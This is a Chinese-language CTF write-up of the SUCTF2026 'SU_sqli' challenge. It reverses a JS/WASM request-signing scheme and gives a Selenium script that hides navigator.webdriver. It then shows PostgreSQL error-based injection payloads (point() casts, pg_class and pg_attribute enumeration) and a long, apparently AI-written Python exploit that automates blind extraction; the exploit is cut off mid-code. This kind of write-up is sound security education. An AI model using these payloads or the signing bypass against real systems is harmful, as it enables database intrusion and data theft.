---
title: "SUCTF2026"
date: 2026-03-15T13:46:00+08:00
summary: " "
url: "/posts/SUCTF2026/"
categories:
  - "赛题wp"
tags:
  - "SUCTF2026"
draft: false
---

时间上跟软件系统安全赛撞了，后面只打了最后半天，牢出了三个题，大型比赛的收获真的太多了

# SU_sqli

## #pgsql注入point报错注入绕过

```bash
Zhou discovered a SQL injection vulnerability. Are you able to compromise the target?
```

页面提示搜索公共笔记，但是需要一个有效的签名，并且有一个tip

```html
Tip: slow is smooth.
```

另外引入了两个js文件

## 代码分析

/static/wasm_exec.js这个文件是 Go 官方提供的 **WebAssembly (WASM) 运行时桥接文件**，简而言之就是让Go程序能在浏览器或者Node.js环境中运行

然后看看app.js文件

挨个看一下

```javascript
  const _s = [
    "L2FwaS9zaWdu",
    "L2FwaS9xdWVyeQ==",
    "UE9TVA==",
    "Y29udGVudC10eXBl",
    "YXBwbGljYXRpb24vanNvbg==",
    "Y3J5cHRvMS53YXNt",
    "Y3J5cHRvMi53YXNt"
  ];
const _d = (i) => atob(_s[i]);
```

`_s`做了一个字符串混淆，这些都是base64编码，解码后就是

```javascript
  const _s = [
    "/api/sign",
    "/api/query",
    "POST",
    "content-type",
    "application/json",
    "crypto1.wasm",
    "crypto2.wasm"
  ];
```

而`const _d = (i) => atob(_s[i]);`则是索引每个字符串并调用atob函数进行base64解码后赋值给`_d[i]`

```javascript
  const $ = (id) => document.getElementById(id);
  const out = $("out");
  const err = $("err");
```

定义一个获取id元素的函数并尝试获取页面中id为out和err的元素

看看最后的事件操作

```javascript
  window.addEventListener("DOMContentLoaded", () => {
    $("run").addEventListener("click", doQuery);
    $("q").addEventListener("keydown", (e) => {
      if (e.key === "Enter") doQuery();
    });
  });
```

无论是点击查询按钮还是回车都会执行doQuery函数，我们跟进看看doQuery干了啥

### doQuery()

```javascript
  async function doQuery() {
      //清空错误信息和输出信息
    err.textContent = "";
    out.textContent = "";
      //尝试获取id为q的内容，也就是keyword的值
    const q = $("q").value || "";
    if (!q) {
      err.textContent = "empty";
      return;
    }
    try {
      await loadWasm();
```

然后调用loadWasm函数分别加载crypto.wasm和crypto2.wasm文件并获取`__suPrep`和`__suFinish`两个加密功能方法

```javascript
  async function loadWasm() {
    if (wasmReady) return wasmReady;
    wasmReady = (async () => {
      const go1 = new Go();
      const resp1 = await fetch("/static/" + _d(5));
      const buf1 = await resp1.arrayBuffer();
      const { instance: inst1 } = await WebAssembly.instantiate(buf1, go1.importObject);
      go1.run(inst1);

      const go2 = new Go();
      const resp2 = await fetch("/static/" + _d(6));
      const buf2 = await resp2.arrayBuffer();
      const { instance: inst2 } = await WebAssembly.instantiate(buf2, go2.importObject);
      go2.run(inst2);

      for (let i = 0; i < 100; i++) {
        if (typeof globalThis.__suPrep === "function" && typeof globalThis.__suFinish === "function") return true;
        await new Promise((r) => setTimeout(r, 10));
      }
      throw new Error("wasm init");
    })();
    return wasmReady;
  }
```

加载完成后调用getSignMaterial方法

```javascript
  async function getSignMaterial() {
    const res = await fetch(_d(0), { method: "GET" });
    const data = await res.json();
    if (!data.ok) throw new Error(data.error || "sign");
    return data.data;
  }
```

先是get请求去访问`/api/sign`获取签名，用json函数将内容进行解析，最后返回签名内容

访问看看

```json
{
  "ok": true,
  "data": {
    "algo": "v6",
    "nonce": "Z1wIVIhaLo7RsmDi",
    "salt": "mkiquL0nm-4",
    "seed": "dA9F1fm8j173.KMIaAvNiRIos.un0rF0SRNxuhRHotxQ.XGIR79vgET6aeLO4tyj6UQ",
    "ts": 1775102696348
  }
}
```

```javascript
      const ua = navigator.userAgent || "";
      const uaData = navigator.userAgentData;
      const brands = uaData && uaData.brands ? uaData.brands.map((b) => b.brand + ":" + b.version).join(",") : "";
      const tz = (() => {
        try {
          return Intl.DateTimeFormat().resolvedOptions().timeZone || "";
        } catch {
          return "";
        }
      })();
      const intl = (() => {
        try {
          return Intl.DateTimeFormat().resolvedOptions().locale ? "1" : "0";
        } catch {
          return "0";
        }
      })();
      const wd = navigator.webdriver ? "1" : "0";
      const probe = "wd=" + wd + ";tz=" + tz + ";b=" + brands + ";intl=" + intl;
```

一些获取浏览器指纹信息的操作，包括UA头中浏览器信息，时区，是否支持国际化，以及是否使用webdriver自动化工具等

最后拼成一个probe变量

```javascript
  const pre = globalThis.__suPrep(
    _d(2),
    _d(1),
    q,
    material.nonce,
    String(material.ts),
    material.seed,
    material.salt,
    ua,
    probe
  );
```

调用`__suPrep`函数进行初步加密处理

```js
pre = __suPrep("POST", "/api/query", q, nonce, ts, seed, salt, ua, probe)
secret2 = unscramble(pre, nonce, ts)
```

接着进行了第二轮加密

```javascript
  const secret2 = unscramble(pre, material.nonce, material.ts);
unscramble函数=>
  function unscramble(pre, nonceB64, ts) {
    const buf = b64UrlToBytes(pre);
    if (buf.length !== 32) throw new Error("prep");
    for (let i = 0; i < 8; i++) {
      const o = i * 4;
      let w =
        (buf[o] | (buf[o + 1] << 8) | (buf[o + 2] << 16) | (buf[o + 3] << 24)) >>> 0;
      w = rotr32(w, rotScr[i]);
      buf[o] = w & 0xff;
      buf[o + 1] = (w >>> 8) & 0xff;
      buf[o + 2] = (w >>> 16) & 0xff;
      buf[o + 3] = (w >>> 24) & 0xff;
    }
    const mask = maskBytes(nonceB64, ts);
    for (let i = 0; i < 32; i++) buf[i] ^= mask[i];
    return buf;
  }
```

unscramble函数进行了位旋转和异或运算

```javascript
const mixed = mixSecret(secret2, probe, material.ts);
mixSecret=>
  function mixSecret(buf, probe, ts) {
    const mask = probeMask(probe, ts);
    if (mask[0] & 1) {
      for (let i = 0; i < 32; i += 2) {
        const t = buf[i];
        buf[i] = buf[i + 1];
        buf[i + 1] = t;
      }
    }
    if (mask[1] & 2) {
      for (let i = 0; i < 8; i++) {
        const o = i * 4;
        let w =
          (buf[o] | (buf[o + 1] << 8) | (buf[o + 2] << 16) | (buf[o + 3] << 24)) >>> 0;
        w = rotl32(w, 3);
        buf[o] = w & 0xff;
        buf[o + 1] = (w >>> 8) & 0xff;
        buf[o + 2] = (w >>> 16) & 0xff;
        buf[o + 3] = (w >>> 24) & 0xff;
      }
    }
    for (let i = 0; i < 32; i++) buf[i] ^= mask[i];
    return buf;
  }
```

把获取到的指纹信息也放进去加密了

```javascript
  const sig = globalThis.__suFinish(
    _d(2),
    _d(1),
    q,
    material.nonce,
    String(material.ts),
    bytesToB64Url(mixed),
    probe
  );
```

最后调用`__suFinish`函数生成最终的签名sig

```javascript
      const res = await fetch(_d(1), {
        method: _d(2),
        headers: { [_d(3)]: _d(4) },
        body: JSON.stringify({ q, nonce: material.nonce, ts: material.ts, sign: sig })
      });
      const data = await res.json();
      if (!data.ok) {
        err.textContent = data.error || "error";
        return;
      }
      out.textContent = JSON.stringify(data.data, null, 2);
    } catch (e) {
      err.textContent = String(e.message || e);
    }
```

带着sig签名进行查询请求操作并将最终的json内容回显

## 思路分析

很显然，这里对传入的参数进行了一些签名加密，请求的路由是`/api/query`，如果直接对这个路由进行传参或者跑sqlmap的话是不行的，后台会进行一个校验，这个之前做vnctf的时候就接触过，一方面是需要逆向解密，另一方面是使用python的Selenium去进行操作，但是不知道Selenium会不会被ban，写个脚本试一下

```python
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait

# 配置 Chrome 选项以绕过检测
options = Options()
options.add_experimental_option("excludeSwitches", ["enable-automation"])
options.add_experimental_option('useAutomationExtension', False)

driver = webdriver.Chrome(options=options)

# 核心：绕过 navigator.webdriver 检测
driver.execute_cdp_cmd("Page.addScriptToEvaluateOnNewDocument", {
    "source": """
    Object.defineProperty(navigator, 'webdriver', {
      get: () => undefined
    })
  """
})

TARGET_URL = "http://101.245.108.250:10001/"
driver.get(TARGET_URL)


def run_query(payload):
    try:
        # 清除之前的状态（模拟页面逻辑）
        driver.execute_script(
            "document.getElementById('err').textContent = ''; document.getElementById('out').textContent = '';")

        input_box = driver.find_element(By.ID, "q")
        input_box.clear()
        input_box.send_keys(payload)

        run_button = driver.find_element(By.ID, "run")
        run_button.click()

        # 使用显式等待：等待 #out 或 #err 里的文字不再是空的
        # 这里的 15 秒是为了响应 "slow is smooth"
        wait = WebDriverWait(driver, 15)

        def check_panels(d):
            out_txt = d.find_element(By.ID, "out").text.strip()
            err_txt = d.find_element(By.ID, "err").text.strip()
            return out_txt or err_txt

        wait.until(check_panels)

        out_panel = driver.find_element(By.ID, "out")
        err_panel = driver.find_element(By.ID, "err")

        if out_panel.text.strip():
            return out_panel.text
        if err_panel.text.strip():
            return f"ERROR: {err_panel.text}"

        return "No result"
    except Exception as e:
        return f"Exception occurred: {str(e)}"


#测试注入点
print("Testing injection point with '1' ...")
result = run_query("1'")
print(f"Result:\n{result}\n")

# driver.quit()
```

加了一些配置强行移除自动化扩展和控制标志从而绕过`const wd = navigator.webdriver ? "1" : "0";`的校验

因为中间会调用loadWasm函数去加载那两个模块进行加密的，如果设置sleep的话也不稳定，所以我直接设置当返回结果不为空的时候再关闭



既然能打，那就开始思考sql方面的问题

## 直接手注了？

看到这回显是PostgreSQL数据库的错误回显，猜测原始的sql语句大致是这样的

```sql
SELECT ... FROM ... WHERE ... = '[q]' LIMIT 20
```

测一下过滤

```sql
--
/*
union
and
;
::
TO_NUMBER
CAST
pg_sleep
```

需要绕过后面的limit 20，并且我发现后台的sql语句估计是这样的

```sql
"SELECT ... WHERE content LIKE '%" + input + "%' LIMIT 20"
```

打一下报错注入

PostgreSQL 特有报错函数

```sql
-- point 类型转换报错
' || (SELECT point((SELECT version()))) || '

-- 数组下标越界
' || (SELECT (array[]::text[])[1]) || '

-- interval 报错
' || (INTERVAL '1 year' + (SELECT version())) || '
```

打一下

```sql
' || (SELECT point(version())) || '
```

发现有回显

```sql
ERROR: invalid input syntax for type point: "PostgreSQL 17.9 (Debian 17.9-1.pgdg13+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 14.2.0-19) 14.2.0, 64-bit" (SQLSTATE 22P02)
```

后面又测得过滤

```sql
' || (SELECT point((SELECT table_name FROM information_schema.tables WHERE table_schema='public'))) || '
过滤了
information_schema
```

换pgsql原生表

系统表替代 information_schema



```sql
' || (SELECT point((SELECT tablename FROM pg_tables WHERE schemaname='public' LIMIT 1 OFFSET 0))) || '
ERROR: invalid input syntax for type point: "posts" (SQLSTATE 22P02)
' || (SELECT point((SELECT tablename FROM pg_tables WHERE schemaname='public' LIMIT 1 OFFSET 1))) || '
ERROR: invalid input syntax for type point: "secrets" (SQLSTATE 22P02)
```

如果 `pg_tables` 也被过滤，用 `pg_class`

```sql
' || (SELECT point((SELECT relname FROM pg_class WHERE relkind='r' LIMIT 1 OFFSET 0))) || '
ERROR: invalid input syntax for type point: "posts" (SQLSTATE 22P02)
' || (SELECT point((SELECT relname FROM pg_class WHERE relkind='r' LIMIT 1 OFFSET 1))) || '
ERROR: invalid input syntax for type point: "secrets" (SQLSTATE 22P02)
```

看到一个secrets表，枚举一下secrets的列名

```sql
' || (SELECT point((SELECT attname FROM pg_attribute JOIN pg_class ON pg_attribute.attrelid=pg_class.oid WHERE pg_class.relname='secrets' LIMIT 1 OFFSET 0))) || '
ERROR: invalid input syntax for type point: "cmax" (SQLSTATE 22P02)
' || (SELECT point((SELECT attname FROM pg_attribute JOIN pg_class ON pg_attribute.attrelid=pg_class.oid WHERE pg_class.relname='secrets' LIMIT 1 OFFSET 1))) || '
ERROR: invalid input syntax for type point: "cmin" (SQLSTATE 22P02)
' || (SELECT point((SELECT attname FROM pg_attribute JOIN pg_class ON pg_attribute.attrelid=pg_class.oid WHERE pg_class.relname='secrets' LIMIT 1 OFFSET 2))) || '
ERROR: invalid input syntax for type point: "ctid" (SQLSTATE 22P02)
' || (SELECT point((SELECT attname FROM pg_attribute JOIN pg_class ON pg_attribute.attrelid=pg_class.oid WHERE pg_class.relname='secrets' LIMIT 1 OFFSET 3))) || '
ERROR: invalid input syntax for type point: "flag" (SQLSTATE 22P02)
```

最后直接读flag

```sql
' || (SELECT point((SELECT flag FROM secrets LIMIT 1 OFFSET 0))) || '
ERROR: invalid input syntax for type point: "SUCTF{P9s9L_!Nject!On_IS_3@$Y_RiGht}" (SQLSTATE 22P02)
```

哈哈哈哈哈好像我这个手注绕过好像不是预期解？估计需要逆向那些加密去打自动化脚本吧

## AI一把梭

尝试让ai分析了一下加密逻辑写了个exp

```python
#!/usr/bin/env python3
"""
Helpers for reversing the visible JS-side transforms in app.js and for
reproducing the full signing / exploitation flow from source.
"""

from __future__ import annotations

import argparse
import base64
import json
import re
import sys
from typing import Iterable

try:
    import requests
except ImportError:  # pragma: no cover
    requests = None


ROT_SCR = (1, 5, 9, 13, 17, 3, 11, 19)

SALT_SEED = 0xA3B1C2D3
SALT_MSG = 0x1F2E3D4C
SALT_UA = 0xB16B00B5
SALT_PERM = 0xC0DEC0DE
WINDOW_MS = 30000

DEFAULT_BASE = "http://127.0.0.1:8080"
DEFAULT_UA = (
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 "
    "(KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"
)

ERROR_TEMPLATES = (
    "' || (SELECT CASE WHEN ({cond}) THEN "
    "JSON_VALUE('{{\"a\":\"x\"}}','$.a' RETURNING INTEGER ERROR ON ERROR) "
    "ELSE 0 END) || '",
    "' || (SELECT CASE WHEN ({cond}) THEN "
    "JSON_VALUE('{{\"a\":\"x\"}}','$.a' RETURNING INTEGER ON ERROR ERROR) "
    "ELSE 0 END) || '",
)


def b64url_to_bytes(data: str) -> bytes:
    text = data.replace("-", "+").replace("_", "/")
    text += "=" * (-len(text) % 4)
    return base64.b64decode(text)


def bytes_to_b64url(data: bytes) -> str:
    return base64.urlsafe_b64encode(data).decode().rstrip("=")


def rotl32(x: int, r: int) -> int:
    r %= 32
    return ((x << r) | (x >> (32 - r))) & 0xFFFFFFFF


def rotr32(x: int, r: int) -> int:
    r %= 32
    return ((x >> r) | (x << (32 - r))) & 0xFFFFFFFF


def xor_bytes(left: bytes, right: bytes) -> bytes:
    if len(left) != len(right):
        raise ValueError(f"xor length mismatch: {len(left)} != {len(right)}")
    return bytes(a ^ b for a, b in zip(left, right))


def each_u32_le(buf: bytes) -> Iterable[int]:
    if len(buf) != 32:
        raise ValueError(f"expected 32 bytes, got {len(buf)}")
    for off in range(0, 32, 4):
        yield int.from_bytes(buf[off : off + 4], "little")


def words_to_bytes(words: Iterable[int]) -> bytes:
    return b"".join((w & 0xFFFFFFFF).to_bytes(4, "little") for w in words)


def mask_bytes(nonce_b64: str, ts: int) -> bytes:
    nonce = b64url_to_bytes(nonce_b64)
    state = 0
    for byte in nonce:
        state = ((state * 131) + byte) & 0xFFFFFFFF
    hi = ts // 0x100000000
    state = (state ^ (ts & 0xFFFFFFFF) ^ (hi & 0xFFFFFFFF)) & 0xFFFFFFFF

    out = bytearray(32)
    for i in range(32):
        state ^= (state << 13) & 0xFFFFFFFF
        state ^= (state >> 17) & 0xFFFFFFFF
        state ^= (state << 5) & 0xFFFFFFFF
        state &= 0xFFFFFFFF
        out[i] = state & 0xFF
    return bytes(out)


def probe_mask(probe: str, ts: int) -> bytes:
    state = 0
    for ch in probe:
        state = ((state * 33) + ord(ch)) & 0xFFFFFFFF
    hi = ts // 0x100000000
    state = (state ^ (ts & 0xFFFFFFFF) ^ (hi & 0xFFFFFFFF)) & 0xFFFFFFFF

    out = bytearray(32)
    for i in range(32):
        state = ((state * 1103515245) + 12345) & 0xFFFFFFFF
        out[i] = (state >> 16) & 0xFF
    return bytes(out)


def unscramble(pre_b64: str, nonce_b64: str, ts: int) -> bytes:
    buf = b64url_to_bytes(pre_b64)
    if len(buf) != 32:
        raise ValueError(f"`pre` must decode to 32 bytes, got {len(buf)}")

    rotated = words_to_bytes(
        rotr32(word, rot) for word, rot in zip(each_u32_le(buf), ROT_SCR)
    )
    return xor_bytes(rotated, mask_bytes(nonce_b64, ts))


def scramble(secret: bytes, nonce_b64: str, ts: int) -> str:
    if len(secret) != 32:
        raise ValueError(f"`secret` must be 32 bytes, got {len(secret)}")

    masked = xor_bytes(secret, mask_bytes(nonce_b64, ts))
    rotated = words_to_bytes(
        rotl32(word, rot) for word, rot in zip(each_u32_le(masked), ROT_SCR)
    )
    return bytes_to_b64url(rotated)


def mix_secret(secret: bytes, probe: str, ts: int) -> bytes:
    if len(secret) != 32:
        raise ValueError(f"`secret` must be 32 bytes, got {len(secret)}")

    mask = probe_mask(probe, ts)
    buf = bytearray(secret)

    if mask[0] & 1:
        for i in range(0, 32, 2):
            buf[i], buf[i + 1] = buf[i + 1], buf[i]

    if mask[1] & 2:
        buf[:] = words_to_bytes(rotl32(word, 3) for word in each_u32_le(bytes(buf)))

    return xor_bytes(bytes(buf), mask)


def unmix_secret(mixed: bytes, probe: str, ts: int) -> bytes:
    if len(mixed) != 32:
        raise ValueError(f"`mixed` must be 32 bytes, got {len(mixed)}")

    mask = probe_mask(probe, ts)
    buf = bytearray(xor_bytes(mixed, mask))

    if mask[1] & 2:
        buf[:] = words_to_bytes(rotr32(word, 3) for word in each_u32_le(bytes(buf)))

    if mask[0] & 1:
        for i in range(0, 32, 2):
            buf[i], buf[i + 1] = buf[i + 1], buf[i]

    return bytes(buf)


def parse_32_bytes(value: str) -> bytes:
    if re.fullmatch(r"[0-9a-fA-F]{64}", value):
        raw = bytes.fromhex(value)
    else:
        raw = b64url_to_bytes(value)

    if len(raw) != 32:
        raise ValueError(f"expected 32 bytes, got {len(raw)}")
    return raw


def print_formats(name: str, data: bytes) -> None:
    print(f"{name}.hex    = {data.hex()}")
    print(f"{name}.b64url = {bytes_to_b64url(data)}")


def rot_words(buf: bytes, r: int) -> bytes:
    out = bytearray(32)
    for i in range(8):
        word = int.from_bytes(buf[i * 4 : i * 4 + 4], "little")
        out[i * 4 : i * 4 + 4] = rotl32(word, r).to_bytes(4, "little")
    return bytes(out)


def permute(buf: bytearray) -> None:
    for i in range(8):
        word = int.from_bytes(buf[i * 4 : i * 4 + 4], "little")
        buf[i * 4 : i * 4 + 4] = rotl32(word, (i * 7 + 3) % 31).to_bytes(
            4, "little"
        )


def permute_inv(buf: bytearray) -> None:
    for i in range(8):
        word = int.from_bytes(buf[i * 4 : i * 4 + 4], "little")
        buf[i * 4 : i * 4 + 4] = rotl32(word, -((i * 7 + 3) % 31)).to_bytes(
            4, "little"
        )


def kdf_table(salt: int, size: int) -> list[int]:
    out = [0] * 16
    value = (salt ^ ((size * 0x9E3779B9) & 0xFFFFFFFF)) & 0xFFFFFFFF
    for i in range(16):
        value ^= (value << 13) & 0xFFFFFFFF
        value ^= (value >> 17) & 0xFFFFFFFF
        value ^= (value << 5) & 0xFFFFFFFF
        out[i] = (value + (i * 0x85EBCA6B)) & 0xFFFFFFFF
    return out


def kdf(data: bytes, salt: int) -> bytes:
    tab = kdf_table(salt, len(data))
    value = (0x811C9DC5 ^ salt ^ tab[len(data) & 15]) & 0xFFFFFFFF
    for i, ch in enumerate(data):
        value ^= (ch + tab[i & 15]) & 0xFFFFFFFF
        value = (value * 0x01000193) & 0xFFFFFFFF
        if tab[(i + 3) & 15] & 1:
            value ^= value >> 13
        if tab[(i + 7) & 15] & 2:
            value = rotl32(value, tab[i & 15] & 7)

    value = (value ^ salt ^ tab[(len(data) + 7) & 15]) & 0xFFFFFFFF
    if tab[1] & 4:
        value ^= rotl32(value, tab[2] & 15)

    out = bytearray(32)
    for i in range(8):
        value ^= (value << 13) & 0xFFFFFFFF
        value ^= value >> 17
        value ^= (value << 5) & 0xFFFFFFFF
        value = (
            value + ((i * 0x9E3779B9) & 0xFFFFFFFF) + salt + tab[i & 15]
        ) & 0xFFFFFFFF
        out[i * 4 : i * 4 + 4] = value.to_bytes(4, "little")

    if tab[0] & 1:
        _ = kdf_table(salt ^ 0xA5A5A5A5, len(data) + 3)
    return bytes(out)


def ua_mix_key(ua: str, salt: str, ts: int) -> bytes:
    if not ua:
        ua = "ua/empty"

    bucket = str(ts // WINDOW_MS)
    msg_a = f"{ua}|{salt}|{bucket}".encode()
    msg_b = f"{bucket}|{salt}|{ua}".encode()
    msg_c = f"{ua}|{bucket}".encode()

    part_a = kdf(msg_a, SALT_UA)
    part_b = kdf(msg_b, SALT_UA ^ 0x13579BDF)
    part_c = kdf(msg_c, SALT_UA ^ 0x2468ACE0)

    mix = xor_bytes(part_a, rot_words(part_b, 5))
    mix = xor_bytes(mix, rot_words(part_c, 11))
    if len(ua) % 7 == 3:
        fake = kdf(f"x|{ua}|{salt}".encode(), 0xDEADBEEF)
        mix = xor_bytes(mix, rot_words(fake, 7))
    return mix


def seed_pack_params(nonce: str, salt: str, ts: int) -> tuple[list[int], list[int], list[int], list[int]]:
    bucket = str(ts // WINDOW_MS)
    msg = f"{nonce}|{salt}|{bucket}".encode()
    key = kdf(msg, SALT_PERM)
    pad_l = [key[i] % 5 for i in range(4)]
    pad_r = [key[i + 4] % 5 for i in range(4)]
    mask = [key[i + 8] for i in range(4)]
    idx = [0, 1, 2, 3]
    pos = 12
    for i in range(3, 0, -1):
        j = key[pos] % (i + 1)
        idx[i], idx[j] = idx[j], idx[i]
        pos += 1
    return idx, pad_l, pad_r, mask


def unpack_seed(seed_pack: str, nonce: str, salt: str, ts: int) -> bytes:
    parts = seed_pack.split(".")
    if len(parts) != 4:
        raise ValueError("bad seed pack")

    perm, pad_l, pad_r, mask = seed_pack_params(nonce, salt, ts)
    chunks = [b"", b"", b"", b""]
    for i, part in enumerate(parts):
        raw = b64url_to_bytes(part)
        idx = perm[i]
        expected = pad_l[idx] + pad_r[idx] + 8
        if len(raw) != expected:
            raise ValueError("bad chunk")

        data = bytearray(raw[pad_l[idx] : pad_l[idx] + 8])
        for j in range(8):
            data[j] ^= (mask[idx] + (j * 17)) & 0xFF
        chunks[idx] = bytes(data)

    return b"".join(chunks)


def sign_request(
    method: str,
    path: str,
    q: str,
    nonce: str,
    ts: int,
    seed_pack: str,
    salt: str,
    ua: str,
) -> str:
    nonce_bytes = b64url_to_bytes(nonce)
    if len(nonce_bytes) < 8:
        raise ValueError("nonce too short")

    k1 = kdf(
        nonce_bytes + ts.to_bytes(8, "little") + b"k9v3_suctf26_sigma",
        SALT_SEED,
    )
    seed_x = bytearray(unpack_seed(seed_pack, nonce, salt, ts))
    dyn = ua_mix_key(ua, salt, ts)
    permute_inv(seed_x)
    seed = xor_bytes(bytes(seed_x), dyn)
    secret = xor_bytes(seed, k1)
    secret2 = xor_bytes(secret, dyn)

    msg = f"{method}|{path}|{q}|{ts}|{nonce}".encode()
    out = bytearray(xor_bytes(secret2, kdf(msg, SALT_MSG)))
    permute(out)
    return bytes_to_b64url(bytes(out))


def require_requests() -> None:
    if requests is None:
        raise RuntimeError("requests is required for HTTP commands")


def make_session(ua: str) -> "requests.Session":
    require_requests()
    session = requests.Session()
    session.headers.update(
        {
            "Accept": "application/json, text/plain, */*",
            "User-Agent": ua,
        }
    )
    return session


def parse_json_response(resp: "requests.Response") -> dict:
    try:
        return resp.json()
    except Exception as exc:
        raise RuntimeError(f"non-json response ({resp.status_code}): {resp.text}") from exc


def fetch_material(
    session: "requests.Session", base: str, timeout: float
) -> dict:
    resp = session.get(f"{base.rstrip('/')}/api/sign", timeout=timeout)
    payload = parse_json_response(resp)
    resp.raise_for_status()
    if not payload.get("ok"):
        raise RuntimeError(payload.get("error") or "failed to get sign material")
    return payload["data"]


def sign_from_args_or_fetch(
    session: "requests.Session",
    base: str,
    timeout: float,
    args: argparse.Namespace,
) -> tuple[dict, str]:
    manual = [args.nonce, args.ts, args.seed, args.salt]
    if any(v is not None for v in manual):
        if not all(v is not None for v in manual):
            raise ValueError("--nonce/--ts/--seed/--salt must be provided together")
        material = {
            "nonce": args.nonce,
            "ts": args.ts,
            "seed": args.seed,
            "salt": args.salt,
        }
    else:
        material = fetch_material(session, base, timeout)

    sign = sign_request(
        method=args.method,
        path=args.path,
        q=args.q,
        nonce=material["nonce"],
        ts=int(material["ts"]),
        seed_pack=material["seed"],
        salt=material["salt"],
        ua=args.ua,
    )
    return material, sign


def do_query(
    session: "requests.Session",
    base: str,
    timeout: float,
    q: str,
) -> tuple[int, dict, dict, str]:
    material = fetch_material(session, base, timeout)
    sign = sign_request(
        method="POST",
        path="/api/query",
        q=q,
        nonce=material["nonce"],
        ts=int(material["ts"]),
        seed_pack=material["seed"],
        salt=material["salt"],
        ua=session.headers["User-Agent"],
    )
    body = {
        "q": q,
        "nonce": material["nonce"],
        "ts": int(material["ts"]),
        "sign": sign,
    }
    resp = session.post(
        f"{base.rstrip('/')}/api/query",
        headers={"Content-Type": "application/json"},
        data=json.dumps(body),
        timeout=timeout,
    )
    return resp.status_code, parse_json_response(resp), material, sign


def inj_payload(cond: str, template: str) -> str:
    return template.format(cond=cond)


def is_error(status: int, payload: dict) -> bool:
    if status != 200:
        raise RuntimeError(f"HTTP {status}: {payload}")
    if payload.get("error") == "blocked":
        raise RuntimeError("WAF blocked payload")
    return not payload.get("ok", False)


def pick_template(session: "requests.Session", base: str, timeout: float) -> str:
    for template in ERROR_TEMPLATES:
        p_true = inj_payload("1=1", template)
        p_false = inj_payload("1=0", template)
        if len(p_true) > 256 or len(p_false) > 256:
            continue
        err_true = is_error(*do_query(session, base, timeout, p_true)[:2])
        err_false = is_error(*do_query(session, base, timeout, p_false)[:2])
        if err_true != err_false:
            return template
    raise RuntimeError("no working error template found")


def check_cond(
    session: "requests.Session",
    base: str,
    timeout: float,
    cond: str,
    template: str,
) -> bool:
    payload = inj_payload(cond, template)
    if len(payload) > 256:
        raise RuntimeError(f"payload too long: {len(payload)}")
    status, data, _, _ = do_query(session, base, timeout, payload)
    return is_error(status, data)


def extract_length(
    session: "requests.Session",
    base: str,
    timeout: float,
    template: str,
    expr: str,
    max_len: int,
) -> int:
    lo, hi = 1, max_len
    while lo <= hi:
        mid = (lo + hi) // 2
        cond = f"length(({expr}))>{mid}"
        if check_cond(session, base, timeout, cond, template):
            lo = mid + 1
        else:
            hi = mid - 1
    return lo


def extract_char(
    session: "requests.Session",
    base: str,
    timeout: float,
    template: str,
    expr: str,
    pos: int,
    low: int,
    high: int,
) -> str:
    lo, hi = low, high
    while lo <= hi:
        mid = (lo + hi) // 2
        cond = f"ascii(substr(({expr}),{pos},1))>{mid}"
        if check_cond(session, base, timeout, cond, template):
            lo = mid + 1
        else:
            hi = mid - 1
    return chr(lo)


def add_http_args(parser: argparse.ArgumentParser) -> None:
    parser.add_argument("--base", default=DEFAULT_BASE, help="base URL")
    parser.add_argument("--ua", default=DEFAULT_UA, help="User-Agent")
    parser.add_argument(
        "--timeout", type=float, default=8.0, help="HTTP timeout in seconds"
    )


def build_parser() -> argparse.ArgumentParser:
    parser = argparse.ArgumentParser(
        description="Reverse app.js transforms and reproduce the full sign/query flow"
    )
    sub = parser.add_subparsers(dest="cmd", required=True)

    pre_to_secret = sub.add_parser("pre-to-secret", help="recover secret2 from pre")
    pre_to_secret.add_argument("--pre", required=True)
    pre_to_secret.add_argument("--nonce", required=True)
    pre_to_secret.add_argument("--ts", required=True, type=int)

    pre_to_mixed = sub.add_parser("pre-to-mixed", help="recover mixed from pre")
    pre_to_mixed.add_argument("--pre", required=True)
    pre_to_mixed.add_argument("--nonce", required=True)
    pre_to_mixed.add_argument("--ts", required=True, type=int)
    pre_to_mixed.add_argument("--probe", required=True)

    mixed_to_secret = sub.add_parser(
        "mixed-to-secret", help="recover secret2 from mixed"
    )
    mixed_to_secret.add_argument(
        "--mixed",
        required=True,
        help="32-byte value in hex or base64url",
    )
    mixed_to_secret.add_argument("--probe", required=True)
    mixed_to_secret.add_argument("--ts", required=True, type=int)

    secret_to_pre = sub.add_parser("secret-to-pre", help="rebuild pre from secret2")
    secret_to_pre.add_argument(
        "--secret",
        required=True,
        help="32-byte value in hex or base64url",
    )
    secret_to_pre.add_argument("--nonce", required=True)
